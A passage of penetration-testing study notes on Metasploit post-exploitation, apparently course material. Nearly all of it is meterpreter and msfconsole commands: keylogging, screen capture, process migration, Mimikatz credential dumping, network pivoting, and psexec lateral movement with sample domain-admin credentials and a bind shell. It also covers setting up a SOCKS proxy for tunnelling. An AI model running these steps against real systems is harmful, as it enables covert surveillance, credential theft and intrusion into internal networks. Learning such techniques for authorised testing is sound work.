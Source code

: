 		To change transport method to the newly created one: meterpreter > transport next
Post-Exploitation with Metasploit:
	Core post-exploitation features: 
		Screenshot command: meterpreter > screenshot
		Key logger:
			meterpreter > keyscan_start
			meterpreter > keyscan_dump
	Migrating processes: we can move the execution of meterpreter to a different process if needeed. Note that we are allowed to migrate to processes executed at integrity level or privilege equal or lower than that of the current process
		meterpreter > ps
		meterpreter > migrate blablaprocessid
	Post-exploitation modules:
		Powershell meterpreter module:
			meterpreter > load powershell
			meterpreter > help powershell
			meterpreter > powershell_execute "$PSVersionTable.PSVersion"
		Mimikatz meterpreter module:
			meterpreter > load kiwi
			meterpreter > getsyste
			meterpreter > cred_msv
	Pivoting with the metasploit framework:
		Let's leverage our existing meterpreter session to enumerate the internal network Active Directory infrastructure and pivot to other machines. 
		For example we want to scan a machine on the 192.168.1.0/24 network (the target machine is 192.168.1.110), while our meterpreter session is open on a dual-homed machine with IP addresses 10.11.0.22 and 192.168.1.111:
			msf5 > route add 192.168.1.0/24 2
			msf5 > route print
			msf5 > use auxiliary/scanner/portscan/tcp
			msf5 > set RHOSTS 192.168.1.110
			msf5 > set PORTS 445, 3389
			msf5 > run
		Since we have already reached Domain Admin access level credentialsm we can try to pivot to the machine at 192.168.1.110:
			msf5 > use exploit/windows/smb/psexec
			msf5 > show options
			msf5 > set SMBDomain corp
			msf5 > set SMBUser jeff_admin
			msf5 > set SMBPass Qwerty09!
			msf5 > set RHOSTS 192.168.1.110
			msf5 > set payload windows/meterpreter/bind_tcp
			msf5 > set RHOST 192.168.1.110
			msf5 > set LPORT 444
		It is important to note that the added route will work only for already established connections, thus the new shell on 192.168.1.110 must be a bind shell (a reverse shell payload wouldn"t work)
			msf5 > exploit
	Autoroute:
		Alternatively to manual pivoting, we can use the Autoroute post-exploitation module:
			msf5 > use multi/manage/autoroute
			msf5 > show options
			msf5 > session -l
			msf5 > set SESSION 2
		We run the module to set the new route automatically:
			msf5 > exploit
	socks4a:
		We can combine routes with the sock4a server module to configure a socks proxy to allow applications outside the metasploit framework to tunnel thru the pivot:
			msf5 > use auxiliary/server/socks4a
			msf5 > show options
			msf5 > set SRVHOST 127.0.0.1
			msf5 > exploit -j
		We now need to update pur proxychains configuration file (/etc/proxychains.conf) to take advantage of the soks proxy by adding a configuration line at the end of the conf file: